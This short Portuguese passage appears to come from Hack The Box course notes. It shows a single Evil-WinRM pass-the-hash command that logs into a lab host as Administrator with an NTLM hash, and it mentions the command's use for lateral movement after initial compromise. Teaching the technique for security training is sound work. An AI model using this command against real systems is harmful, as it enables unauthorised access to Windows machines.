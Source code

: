 #### Exemplo de passagem de hash com Evil-WinRM

```shell-session
NycolasRamos@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

Podemos tentar usar esse ataque quando precisarmos nos mover lateralmente por uma rede após o comprometimento inicial de um alvo. Mais sobre PtH será abordado no módulo `AD Enumeration and Attacks`.











